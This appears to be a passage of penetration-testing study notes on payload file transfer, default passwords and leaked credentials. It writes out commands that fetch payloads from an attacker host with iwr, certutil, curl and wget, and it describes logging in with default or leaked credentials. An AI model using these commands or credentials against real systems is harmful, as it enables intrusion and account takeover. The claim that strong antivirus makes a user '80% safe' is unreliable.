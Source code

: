 - Payloads are one of Malwares, so the prevention methods are same with Malware Protection methods.
- **REMEMBER**: if you have strong antivirus software you are 80% safe.

## File Transfer

File transfer techniques allow attackers to upload payloads or exfiltrate sensitive data during post-exploitation.
-  File Transfering Server: You can Start Python server and use it to download from it. 
	- ■ To start server: `python3 -m http.server 9090 `
- **For Windows** 
	- **Invoke-WebRequest**: 
		`iwr -Uri "http://[attacker_ip]:PORT/payload.exe" -OutFile "payload.exe"` 
	- **CertUtil**: 
		`certutil.exe -urlcache -split -f "http://[attacker_ip]:PORT/payload.exe" payload.exe` 
- **For Linux** 
	- **cURL**: `curl http://[attacker_ip]:PORT/file --output file` 
	- **Wget**: `wget http://[attacker_ip]:PORT/file`

## Example…

```
>	python3 -m http.server 9090
  ....running..
```
```
>	wget http:/192.168.7.8:9090/malware
   ...the malware is uploaded to the target...
```

## Default Passwords

**Default passwords**: are factory-set credentials for devices, software, and systems.
- These are often left unchanged by users, creating a security vulnerability.
- Identifying and exploiting default credentials can reveal potential security risks and misconfigurations in a system.
- Most Common are
	- Admin : admin 
	- Admin : passwords 
	- …
- Most Softwares and Devices Come with their Own default password, To get that we can you Search Engines with query of 
	- “Default Password for {SoftwareName}”. 
	- “Default login for {SoftwareName}”.
- Eg. on google: "default password for huawei router"

## Leaked Credentials

**Leaked credentials** can be a **goldmine** for penetration testing.
- Tools/Resources: 
	- **Dehashed**: Search for leaked credentials by email, username, or domain. 
	- **Have I Been Pwned (HIBP)**: Identify compromised email accounts or domains. 
	- **LeakBase**: Use for searching leaked database dumps. 
	- **OSINT Tools**: Check public dumps for credentials.
- **Task**: Obtain valid combinations of usernames/emails and passwords for testing purposes.
- Use the credentials to log in to the respective services (if authorized).
